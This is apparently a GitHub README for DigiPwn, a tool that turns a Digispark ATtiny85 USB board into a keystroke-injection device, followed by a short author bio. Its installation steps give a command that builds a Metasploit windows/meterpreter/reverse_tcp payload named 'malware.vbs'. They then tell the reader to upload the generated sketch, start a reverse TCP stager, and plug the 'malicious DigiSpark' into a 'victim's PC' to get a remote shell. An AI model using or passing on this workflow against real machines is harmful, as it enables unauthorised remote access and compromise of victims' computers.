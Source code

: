 # DigiPwn
Digispark KickStarter ATtiny85 USB Development Board The ATtiny85 based mini development board is similar to the Arduino, 
but cheaper and smaller (of course a bit less powerful). With a whole host of shields to extend its functionality and the 
ability to use the familiar Arduino IDE, this board is a great way to jump into microcontroller electronics.

# Requirements
 - [Python 2.7](https://www.python.org/downloads/)
 - [Arduino](https://www.arduino.cc/en/Main/Software)
 - Setup DigiSpark board in Arduino. [Click here for how-to.](https://digistump.com/wiki/digispark/tutorials/connecting).
 - Requires module [impacket](https://github.com/SecureAuthCorp/impacket).
# Installation 
 - First clone the repo
  `git clone https://github.com/zer0overflow/DigiPwn.git`
 - Then run `python DigiPwn.py [HOST] [PORT] [PAYLOAD] [OUTPUT FILE] [FORMAT]`
   
   Example: `python DigiPwn.py 192.168.1.2 8080 windows/meterpreter/reverse_tcp malware.vbs vbs`
   
 - A file named `keystroke_inject.ino` will be created. Upload that code using Arduino.
 
 - The program will ask you if you want to start a reverse tcp stager. Press y and then enter to start one.
 
 - Plug the malcious DigiSpark to victim's PC and **BOOM! You've a shell!**
 
 # About me
 I'm a 17 year old kid born and raised Oman an country in the middle east. Growing up i was pretty much intrested to code and 
 fell in love with it. During my 8th grade I was introduced to Kali Linux a OS that changed my view of life. Write now I'm     doing my class 12 at Kerela, India. I did CEH which was pretty much amazing. 
 Follow me on Instagram
 
 [https://www.instagram.com/zero.overflow](https://www.instagram.com/zero.overflow)
 [My website](https://zer0overflow.github.io/)
